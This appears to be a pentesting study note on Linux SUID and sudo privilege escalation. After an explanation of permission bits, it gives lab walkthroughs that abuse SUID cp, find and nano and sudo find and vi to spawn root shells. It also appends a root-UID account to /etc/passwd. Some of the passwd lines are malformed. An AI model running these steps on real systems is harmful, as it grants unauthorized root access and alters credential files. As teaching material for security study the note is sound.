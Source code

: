 # 4.4.2 SUID Exploitation

## SUID Exploitation

<details>

<summary>What is SUID?</summary>

SUID, which stands for Set User ID, is a special permission in Linux and Unix-like operating systems. When an executable file has the SUID permission set, it allows the user to execute the file with the privileges of the file's owner rather than the privileges of the user who is running the program. This is particularly useful for certain system programs that need elevated privileges to perform specific tasks.

The SUID permission is represented by the letter "s" in the user permission field of the file's permission bits. When the SUID bit is set, you will see an "s" instead of an "x" in the user permission field. For example:

* If the SUID bit is set: `-rwsr-xr-x`
* If the SUID bit is not set: `-rwxr-xr-x`

Common examples of programs that use the SUID permission include `passwd` and `sudo`. These programs need elevated privileges to perform tasks like changing the user password or running commands with superuser privileges.

It's important to note that the SUID mechanism should be used with caution, as it can introduce security risks. If a poorly designed program has the SUID bit set and contains vulnerabilities, it may be exploited to gain unauthorized access or perform malicious actions with elevated privileges. Therefore, system administrators should carefully review and audit programs with the SUID bit set to ensure they are secure and necessary for system functionality.

</details>

```bash
r=read, w=write, x=execute

rwx      rwx      rwx
user     group    others
421      421      421
4+2+1=7  4+2+1=7  4+2+1=7

chmod 777 #Maximum privileges
```

{% embed url="https://linuxhint.com/special-permissions-suid-guid-sticky-bit/" %}

<div align="left">

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption><p><a href="https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png">https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png</a></p></figcaption></figure>

</div>

{% embed url="https://www.redhat.com/sysadmin/suid-sgid-sticky-bit" %}

```bash
#Special Permissions
SUID (user) -> rwx -> rwS
SGID (group) -> rwx -> rwS
Sticky bits (others) -> rwT

chmod u+s = chmod 4755

find / -perm -u=s -type f 2>/dev/null #find files with root owner
```

<details>

<summary>What is a SUID Exploitation?</summary>

**SUID exploitation** is a serious security concern and is often associated with unauthorized activities and hacking. System administrators should follow best practices in securing their systems, including proper configuration, regular updates, and auditing of permissions to minimize the risk of SUID-related vulnerabilities.

Here's a basic overview of SUID exploitation:

1. **Understanding SUID:**
   * SUID is a special permission that can be set on an executable file. When a user runs a program with the SUID bit set, the program runs with the privileges of the file owner rather than the user who is executing the program.
2. **Exploitation Scenario:**
   * An attacker looks for a vulnerable program with the SUID bit set. This could be a system utility or custom program that has a security flaw.
3. **Identifying Vulnerabilities:**
   * The attacker identifies vulnerabilities in the program that can be exploited to execute arbitrary code or commands. These vulnerabilities could include buffer overflows, input validation issues, or other security weaknesses.
4. **Execution of Malicious Code:**
   * The attacker creates or injects malicious code into the vulnerable program. When the SUID program is executed, it runs with elevated privileges, allowing the attacker to perform actions they wouldn't normally be allowed to do.
5. **Gaining Elevated Privileges:**
   * By exploiting the SUID program, the attacker may gain elevated privileges, enabling them to access sensitive files, manipulate system configurations, or perform other malicious activities.
6. **Mitigation:**
   * To prevent SUID exploitation, it's crucial to carefully review and audit programs with the SUID bit set. Remove unnecessary SUID permissions, and ensure that programs are secure and well-designed to resist exploitation.
7. **Regular System Audits:**
   * System administrators should conduct regular audits to identify and address potential security risks. This includes monitoring for changes in SUID permissions and reviewing the security of programs with elevated privileges.

</details>

## Suid Exploits (PoC)

### CP Command

```bash
adduser new_user #create a new user
getent passwd new_user #check if new_user exists
su new_user #switch to new_user account
cp /etc/passwd /var/www/html/ #PERMISSION DENIED!
```

Infact, if I try to use: `find / -perm -u=s -type f 2>/dev/null` there's not cp path (or in alternative see permissions of `ls -al command_path_name`). If we want to assign SUID permission at cp command, we need to use chmod u+s (path of cp command):

```bash
which cp
/usr/bin/cp
chmod u+s /usr/bin/cp #it needs root permissions
```

Now, every users can execute cp command with root permissions!

Then, we can execute the same sequence of commands regarding cp of /etc/passwd using new\_user account user:

```bash
su new_user
cp /etc/passwd /var/www/html/
```

The idea is to add a new user with root permissions and not only for cp command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

In alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/cp/) site regarding `cp` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/cp/">https://gtfobins.github.io/gtfobins/cp/</a></p></figcaption></figure>

### FIND Command

In the wake of the previous example, we proceed with the find command, using the same normal user (new\_user).

```bash
which find
/usr/bin/find
ls -al /usr/bin/find
-rwxr-xr-x 1 root root 224848  8 gen  2023 /usr/bin/find
chmod u+s /usr/bin/find #give SUID permissions, it needs root permissions
```

To do privilege escalation we only need to file an existing file using find command:

```bash
find example_file -exec "whoami" \;
root
```

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) site regarding `find` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/find/#suid">https://gtfobins.github.io/gtfobins/find/#suid</a></p></figcaption></figure>

### NANO Command

As the last case, we do this sequence of command to do NANO SUID exploitation:

```bash
which nano
/usr/bin/nano
ls -al /usr/bin/nano
-rwxr-xr-x 1 root root 287480 18 gen  2023 /usr/bin/nano
chmod u+s /usr/bin/nano #give SUID permissions, it needs root permissions
```

Now, we can open file with root permissions like as /etc/passwd with a normal user using nano:

```bash
nano /etc/passwd
```

As the example of Copy SUID, the idea is to add a new user with root permissions and not only for nano command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#suid) site regarding `nano` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/nano/#suid">https://gtfobins.github.io/gtfobins/nano/#suid</a></p></figcaption></figure>

### RIGHT Command

Sudoers file can cantoins users with a specific root permission called SUDO Rights, e.g. new\_user ca execute `find` command as root:

```bash
visudo #to open sudoers file
root   ALL=(ALL:ALL) ALL
new_user  ALL=(root) NOPASSWD: /usr/bin/find
```

To do privilege escalation we only need to file an existing file using find command:

```bash
su new_user
sudo find /home -exec /bin/bash \;
root
```

Can we do the same for others command, e.g. vi command:

```
new_user  ALL=(root) NOPASSWD: /usr/bin/vi
```

```bash
su new_user
sudo vi example_file
!bash #write it into example_file and save using Enter
root
```

It's possible to do the same for more command such as: man, python, nano, vim, etc.

## Other resources

{% embed url="https://gtfobins.github.io/" %}
